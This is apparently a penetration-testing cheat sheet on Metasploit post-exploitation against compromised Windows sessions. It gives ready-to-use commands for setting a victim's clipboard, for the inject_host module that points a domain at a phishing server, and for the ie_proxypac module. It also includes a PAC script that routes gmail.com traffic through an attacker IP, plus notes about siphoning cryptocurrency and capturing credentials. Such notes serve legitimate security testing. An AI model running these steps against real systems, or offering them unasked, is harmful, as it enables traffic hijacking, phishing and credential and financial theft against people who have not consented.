# Metasploit

## Hijack Clipboard

TODO: Provide an example such as injecting a cryptocurrency to siphon's the victims financial accounts.

```
meterpeter > clipboard_set_text
```

## Inject DNS Hosts

```
msf > use post/windows/manage/inject_host

msf post(windows/manage/inject_host) > options

Module options (post/windows/manage/inject_host):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN                    yes       Domain name for host file manipulation.
   IP                        yes       IP address to point domain name to.
   SESSION                   yes       The session to run this module on

msf post(windows/manage/inject_host) > set domain <domain>

msf post(windows/manage/inject_host) > set ip <phishing_server>

msf post(windows/manage/inject_host) > set session <session_ID>

msf post(windows/manage/inject_host) > run
```

## Load Rouge HTTP Proxy

TODO: Show a step by step approach to setup a phishing webpage to capture credentials

```javascript
function FindProxyForURL(url, host) {
	if (shExpMatch(host, "www.gmail.com")) { 
		 return "PROXY <attacker_IP>:80; DIRECT";
	}
	if (shExpMatch(host, "www.shelliscoming.com")) { 
		return "PROXY <attacker_IP>:80; DIRECT";
	}
	if (url.substring(0, 6) == "https:") {
		return "DIRECT";
	}
}
```

```
msf > use post/windows/manage/ie_proxypac

msf post(windows/manage/ie_proxypac) > options

msf post(windows/manage/ie_proxypac) > set local_pac /local/path/to/file.pac

msf post(windows/manage/ie_proxypac) > run session=<session_ID>

msf post(windows/manage/ie_proxypac) > sessions -i <session_ID>

meterpreter > getproxy
```

---
## References

### Hacking Articles

- [Hacking Articles: Metasploit for Pentester - Clipboard](https://www.hackingarticles.in/metasploit-for-pentester-clipboard/)

### Shell is Coming

- [Shell is Coming: Controlling Internet Explorer user traffic through a proxy PAC file](https://www.shelliscoming.com/2013/12/metasploit-controlling-internet.html)